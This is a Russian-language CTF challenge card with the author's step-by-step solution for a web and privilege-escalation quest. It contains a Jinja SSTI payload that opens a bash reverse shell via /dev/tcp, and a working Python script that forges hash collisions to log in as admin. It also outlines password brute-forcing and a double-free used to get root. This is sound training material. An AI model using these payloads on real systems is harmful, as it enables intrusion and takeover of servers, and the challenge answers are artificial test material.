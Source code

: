# Очередная бета

## Категория
Квест

## Описание
Мой бот для обнаружения сайтов засёк что-то странное, видимо это чей-то новый сайтик. Я успел взять только этот файл, но надеюсь он тебе поможет.
PS: флаг = пользователь_рут

## Сложность
Medium

## Стоимость
550

## Файлы
cipher.py

## Хостинг
Нужен

## Флаг
flag_plug

==========

## решение
1. Заходим на сайт, логинимся и видим, что можно отправить запрос в бд.
2. После того, как поняли, что sqli тут нет, узнаём, что сайт работает на python3 => пробуем ssti и она работает.
```
{{ config.__class__.__init__.__globals__['os'].system('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"') }}
```
3. Читаем файл search.py, и понимаем, что мы в другой vm. Пытаемся подставить secret_key для подделки jwt, но без толку => читаем бд через python скрипт.
4. Получили пароль и логин от админа. Теперь вспоминаем проинтересный файл, и ОЧЕВИДНО ПОНИМАЕМ, что хэш сделан через функцию `hash_string`. Тут 2 варианта
4.1. Мы брутим и ИДЕЙНО получаем нужное (не тот вектор атаки)
4.2. Смотрим на файл, и понимаем, что легче составить возможную строку, чей хэш будет таким же как и хэш пароля.
```python3
import random
import string
import time


CHARACTERS = string.ascii_letters + string.digits
CHAR_LEN = len(CHARACTERS)
HASH_SIZE = 4 * 8

def normal_string(s):
    s_size = len(s)
    if s_size == 1:
        s = s + (chr(ord(s) ^ HASH_SIZE))
    if s_size < HASH_SIZE:
        for i in range(s_size, HASH_SIZE):
            s += CHARACTERS[(ord(s[i - s_size]) + ord(s[i - s_size + 1])) % len(CHARACTERS)]
    
    return s

def create_segm_arr(s):
    seg_len = len(s) // HASH_SIZE
    num_not_norm_seg = (len(s) % HASH_SIZE)
    
    segm = []
    for i in range(0, len(s) - (num_not_norm_seg * (seg_len + 1)), seg_len):
        segm.append(s[i:i+seg_len])

    for i in range(len(s) - (num_not_norm_seg * (seg_len + 1)), len(s), seg_len+1):
        segm.append(s[i:i+seg_len+1])
    
    return segm

def sum_of_string(s):
    return sum(map(ord, s))


def hashing(arr):
    HASH = []
    for i in range(1, len(arr)):
        index = (sum_of_string(arr[i - 1]) + sum_of_string(arr[i])) % CHAR_LEN
        HASH.append(CHARACTERS[index])
    return ''.join(HASH)

def hash_string(s):
    return hashing(create_segm_arr(normal_string(s)))

def generate_random_string(length):
    return ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(length))

def generate_specific_string(itteration):
    CHARACTERS = string.ascii_letters + string.digits
    base = len(CHARACTERS)
    if itteration == 0:
        return CHARACTERS[0]  # Handle the case for 0
    result = []
    while itteration > 0:
        remainder = itteration % base
        result.append(CHARACTERS[remainder])  # Get the character for the remainder
        itteration //= base

    result.reverse()  # Reverse the result to get the correct order
    return ''.join(result)

def find_el(multiplier, posible_str, el):
    return chr(CHARACTERS.index(el) + CHAR_LEN * multiplier - ord(posible_str[-1]))

def find_colision(hashed_str):
    posible_strs = []
    for main_el in CHARACTERS:
        try:
            posible_str = main_el
            for el in hashed_str:
                mul = 7
                new_el = find_el(mul, posible_str, el)
#                while new_el not in CHARACTERS:
#                    print(ord(new_el), CHARACTERS.index(el) + CHAR_LEN * mul)
#                    mul += 1
#                    if CHARACTERS.index(el) + CHAR_LEN * mul == 321: exit("WOW " + str(mul) + " " + new_el + " " + str(ord(new_el)) + " " + posible_str)
#                    new_el = find_el(mul, posible_str, el)
#                    if mul > 10:
#                        print("Too much")
#                        raise ValueError
                #print(posible_str)
                
                posible_str += new_el
                    
            posible_strs.append(posible_str)
        except ValueError:
            pass
    return posible_strs

def remove_unprintable_chars(s):
    return ''.join(filter(str.isprintable, s))

h = input(">> ")

col = find_colision(h)
for el in col:
    if len(remove_unprintable_chars(el)) == HASH_SIZE:
        print(h, el, hash_string(el))
        exit()
```
5. Нашли подходящую строку => логинимся, и видим лень автора - форму в `/admin` для отправки shell команд. Получаем реверм шелл.
6. А вот тут хитро (в целом автора тут можно поругать): мы - `www-data`, и нам надо повысить привилегии. Смотрим пользователей, и видим `macqueen`. Тут вспоминаем про бота на `/search`, и смотрим кто это вообще? А это бот, который может найти пароль по имени пользователя => ищем через него нашего macqueen, брутим пароль и готово, флаг пользователя наш.
7. Классическое `sudo -l` подсказывает сервис `/opt/login`. При реверсе видим double-free и system при успешной эксплуатации. Хоп-хоп и готов рут.
